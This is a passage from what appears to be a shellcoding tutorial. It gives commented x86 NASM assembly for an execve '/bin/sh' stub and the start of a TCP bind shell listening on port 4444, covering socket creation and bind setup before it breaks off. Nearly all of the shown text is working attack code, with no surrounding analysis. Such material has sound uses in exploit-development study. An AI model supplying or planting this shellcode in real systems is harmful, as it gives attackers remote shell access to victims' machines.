```nasm
push edx         ; NULL
push 0x68732f2f	 ; "hs//"
push 0x6e69622f  ; "nib/"
mov ebx, esp     ; point ebx to stack
mov ecx, edx     ; NULL
mov al, 0xb      ; execve System Call Number
int 0x80         ; execute execve
```

## Complete TCP Bind Shell Assembly Code

```nasm
; Author: boku
; Purpose: TCP Bind Shell Shellcode
;  Listens on all IPv4 Interfaces, TCP Port 4444
;  Spawns the shell "/bin/sh" upon connection
global _start

section .text

_start:
; 1. Create a new Socket
; <socketcall>  ipv4Socket = socket( AF_INET, SOCK_STREAM, 0 );
;   EAX=0x66                  EBX     ECX[0]   ECX[1]    ECX[2]
xor eax, eax      ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66      ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx      ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x1       ; EBX is set to create a socket
xor ecx, ecx      ; This sets the ECX Register to NULL (all zeros).
push ecx          ; ECX[2]. ECX is NULL, the value needed for the first
                  ;   argument we need to push onto the stack
push ebx          ; ECX[1]. EBX already has the value we need for ECX[1] 
                  ;   we will simply use it to push the value 1.
push dword 0x2    ; ECX[0]. Push the value 2 onto the stack, needed for AF_INET.
mov ecx, esp      ; ECX now holds the pointer to the beginning of the 
                  ;   argument array stored on the stack.
int 0x80          ; System Call Interrupt 0x80 - Executes socket(). 
                  ;   Creates the Socket.
xchg esi, eax     ; After the SYSCAL, sockfd is stored in the EAX Register. 
                  ;   Move it to the ESI Register; we will need it later.

; 2+3. Create TCP-IP Address and Bind the Address to the Socket
; struct sockaddr_in ipSocketAddr = { 
; .sin_family = AF_INET, .sin_port = htons(4444), .sin_addr.s_addr = INADDR_ANY};
;       ARG[0]               ARG[1]                          ARG[2]
;<socketcall>   bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));  
;  EAX=0x66      EBX   ECX[0]                   ECX[1]                   ECX[2]
xor eax, eax      ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66      ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx      ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x2       ; EBX is set to create a socket
xor edx, edx      ; This sets the EDX Register to NULL (all zeros).
push edx          ; ARG[2]. EDX is NULL, the value needed for INADDR_ANY.
push word 0x5c11  ; ARG[1]. This is for the TCP Port 4444.
push bx           ; ARG[0]. Push the value 2 onto the stack, needed for AF_INET.
xor ecx, ecx      ; This sets the EAX Register to NULL (all zeros).
mov ecx, esp      ; Save the memory location of ARG[0] into the EDX Register. 
                  ;   We will use this for ECX[1].
push 0x10         ; ECX[2]. Our Struct of ARG's is now 16 bytes long (0x10 in Hex). 
push ecx          ; ECX[1]. The pointer to the beginning of the struct we saved is now 
                  ;   loaded up for ECX[1].
push esi          ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp      ; Now we need to point ECX to the top of the loaded stack.
```

[1]: 1
[1]: 1